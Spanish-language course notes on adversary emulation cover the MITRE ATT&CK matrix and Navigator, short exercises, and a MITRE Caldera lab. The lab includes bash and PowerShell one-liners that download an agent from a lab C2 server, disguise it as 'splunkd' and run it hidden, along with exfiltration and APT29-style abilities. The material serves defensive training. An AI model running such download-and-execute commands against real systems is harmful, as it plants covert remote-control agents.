

# Sesión #3 28/02/2024

Partimos infraestructura considerada segura y bastionada.

Herramientas de analisis de configuración, buscando errores de configuraciones o configuraciones por defecto (Pingcastle y Purple Knight y bajo otro enfoque, a través de un grafo, Forest Druid. Para linux, Lynis).

Recordar la diferencia entre vulnerabilidad y errores de bastionado.

Herramientas de análisis de vulnerabilidades, OpenVAS.

Otro tipo de prueba es la emulación de adversarios.

## 08 - Emulación de adversarios

Se busca imitar las técnicas de algún atacante en particular. Para entender si una organización está preparada para defenderse frente a sus TTPs (Tácticas, Técnicas y Procedimientos).

### Matriz MITRE ATT&CK

Equivalente en técnicas de ataque a la tabla de elementos químicos. Se busca entender cómo se comporta un atacante.

La matriz [MITRE ATT&CK](https://attack.mitre.org/matrices/enterprise/) presenta una serie de fases en las que puede estar un adversario. Cada una de estas fases tiene técnicas asociadas.


Cada táctica aglutina técnicas y subtécnicas. Por ejemplo, el detalle de la técnica de [phising](https://attack.mitre.org/techniques/T1566/):

- Descripción de la misma
- Procedimientos de ejemplo (grupos GXXXX o software SXXXX)
- Recomendaciones de mitigación
- Recomendaciones de detección
- Referencias

### ATT&CK Navigator

Dentro de la matriz hay una herramienta [ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) que permite interactuar con la matriz.


Tenemos información de un grupo de ciberdelincuentes, por ejemplo, [XENOTIME](https://secinfinity.net/es/xenotime-la-apt-que-amenaza-infraestructuras-criticas/) y queremos verificar que estamos protegidos contra los ataques que hace este grupo.

Herramienta navigator, buscamos el grupo XENOTIME y vemos que no nos devuelve nada. Buscamos el grupo en el listado del [MITRE](https://attack.mitre.org/groups/) y descubrimos que el grupo es conocido como "Temp.Veles".


Así podemos centrarnos en las técnicas que utiliza este grupo y ver si estamos protegidos contra ellas.


Cuando más podamos expandir, más información tendremos sobre las técnicas que utiliza el grupo y se podrán tomar medidas para protegernos.

### Ejercicio

Tus sistemas de monitorización alertan de la ejecución del software sqlmap. Atendiendo a lo mostrado en la matriz MITRE,

1. ¿En qué fase del ataque (técnica) se encuentra el atacante que ejecutó el comando?

    Initial access - Exploit Public-Facing Application

2. En el momento de la ejecución, ¿crees que ya se encontraba dentro de la infraestructura de la empresa?

    No, ya que se trata de un ataque de acceso inicial.


Tu sistema de monitorización tiene una regla para monitorizar la creación de objetos WMI (WMI Creation).

1. ¿Qué técnica podría estar usando un atacante dentro de tus sistemas si alguna vez surge una alerta proveniente de esta regla?

    Event Triggered Execution

2. ¿Para qué usan los atacantes esta técnica? Es decir, ¿cuáles son las tácticas asociadas a dicha técnica?

    Persistencia y Escalada de privilegios


### Plan de emulación de adversarios de MITRE ATT&CK

- Reunir información sobre amenazas.
- Extraer tacticas, técnicas y procedimientos.
- Analizar y organizar.
- Desarrollar/Utilizar herramientas específicas.
- Emular al adversario.

[https://www.tarlogic.com/es/blog/fancy-bear-donde-encontrarlos/](https://www.tarlogic.com/es/blog/fancy-bear-donde-encontrarlos/)

### Herramientas

- Cobalt Strike (pago) - [https://www.cobaltstrike.com/](https://www.cobaltstrike.com/)
- Cymulate (pago) - [https://www.cymulate.com/](https://www.cymulate.com/)
- AttackIQ (pago) - [https://www.attackiq.com/](https://www.attackiq.com/)
- SimSpace (pago) - [https://www.simspace.com/](https://www.simspace.com/)
- Atomic Red Team (open source) - [https://atomicredteam.io/](https://atomicredteam.io/)
- Caldera (open source)

## 09 - Caso práctico. Emulación de adversarios con MITRE Caldera

CALDERA es una plataforma desarrollada por MITRE que permite realizar evaluaciones de seguridad de forma automatizada.

No es una herramienta de pentesting-penetración, ya que para empezar exige la instalación de un agente en los sistemas que se quieren evaluar.

- Emulación Autonoma de Adversarios.
- Pruebas y Evaluación de Plataformas de Detección, Análisis y Respuesta.
- Mejora de las capacidades de los equipos de Red Team.
- Respuesta a incidentes automatizada (IDS).

### Requisitos

Hardware 8GB+ RAM, 2+ CPUs. Sistema Linux o MacOS. Python 3.8+. NodeJS (v16+). Chrome. GoLang 1.17+

### Instalación

Configurar la Red NAT en VirtualBox.

``` bash
sudo apt update
sudo apt install git python3-pip curl upx nodejs npm
pip install docker
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.1/install.sh | bash
(Cerramos la terminal y abrimos una nueva)
nvm install node
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
pip3 install -r requirements.txt
sudo snap install go --classic
(Compilar)
python3 server.py --insecure --build
```



Se accede vía [http://localhost:8888](http://localhost:8888)

Funcionamiento normal: red / admin

Funcionamiento como IPS: blue / admin

Recomendación: tienen un apartado de training con ejercicios para aprender a usar la herramienta. Tiene una serie de retos tipo CTF que si se completan todos se genera un código para obtener un certificado expedido por MITRE [Guía de soluciones](https://github.com/mitre/training/tree/master/solution_guides).

### Terminología

- Agente: Software que se instala en los sistemas que se quieren evaluar.
- Habilidades: Táctica o técnica que se quieren emular. Vinculadas a la matriz MITRE ATT&CK.
- Adversarios: Perfiles de los atacantes que se quieren emular. Conjunto de habilidades.
- Operaciones: Ejecuciones de habilidades sobre grupos de agentes.


### Primeros pasos

Instalar en la propia máquina linux (probar el SandCat).

``` bash
server="http://0.0.0.0:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;chmod +x splunkd;./splunkd -server $server -group red -v
```

Y otra en el windows 10 limpia (meterlo en la misma Red NAT).

``` psh
$server="http://10.1.0.4:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;rm -force "C:\Users\Public\splunkd.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

### Automatización de ataques

Revisar las habilidades y los adversarios.

Como ejemplo, probamos "Advanced Thief"


- Advanced File Search and Stager. Realiza una búsqueda de ficheros y los copia a un directorio temporal.
- Compress staged directory. Comprime el directorio temporal.
- Exfil staged directory. Exfiltra el fichero comprimido a un servidor externo (en este caso al propio servidor de CALDERA).

En las columnas Requires y Unlocks se pueden ver los Hechos (Facts) que cada habilidad recopia (desbloquea) o necesita para ejecutarse.

Fuentes de hechos. Para indicar o recopilar los hechos anteriormente mencionados.

Creación y ejecución de la operación. Revisión de la ejecución.

### Emulación de adversarios

La pirámide del dolor es un modelo utilizado en ciberseguridad para identificar y clasificar las técnicas y tácticas de los ciberdelincuentes y muestra la relación entre los tipos de artefactos que se pueden usar para detectar las actividades de un adversario y cuánto daño le causas (le dificultas la tarea) al detectar y anular dichos artefactos., desde el más bajo (más fácil de cambiar para el ciberdelincuente) hasta el más alto (más difícil de modificar).


[Fuente](https://www.welivesecurity.com/la-es/2021/08/24/threat-hunting-que-es-practica-detectar-amenazas-ocultas-la-red/)

- Hash de Archivos: El nivel más bajo. Cambiar un hash es simple para un atacante.
- Direcciones IP: Ligeramente más difícil de cambiar, pero aún sencillo.
- URLs y Dominios: Requieren más esfuerzo para ser modificados, pero son alterables.
- Artefactos de Red y de Host: Se refiere a artefactos modificados por el atacante y que son observables tanto a nivel de red como de endpoint, como por ejemplo: modificaciones de User Agent en HTTP, modificaciones de claves de registro, creación de directorios temporales, etc.
- Herramientas/Software: Cambiar el software y las herramientas utilizadas es muy complicado pero posible.
- Tácticas, Técnicas y Procedimientos (TTP): El nivel más alto. Cambiar los TTPs para un ciberdelincuente implicaría cambiar todo su “modus operandi”, desde el reconocimiento inicial hasta la exfiltración de datos.

### Ejemplo Cozy Bear (APT 29)

Configuración del adversario en CALDERA.

Crear adversario APT29.

Añadirle habilidades según la matriz MITRE ATT&CK.

- Download Macro-Enabled Phishing Attachment
- PowerShell Command Execution
- Replace binary of sticky keys
- Reg Key Run
- Obfuscated Command in PowerShell

Añadir fuente de hechos. No necesita ninguna.

Crear y ejecutar operación.

Hay que ver primero si ha tenido éxito (nuestros sistemas de defensa no han sido capaz de evitarlo). Si falla puede ser porque el comando esté mal ejecutado o que nuestros sistemas de defensa han sido capaces de evitarlo. Habría que mirar si nuestros sistemas de defensa han sido capaces de detectar y anular los artefactos que ha dejado el atacante.

Por último mirar el apartado de debrief.
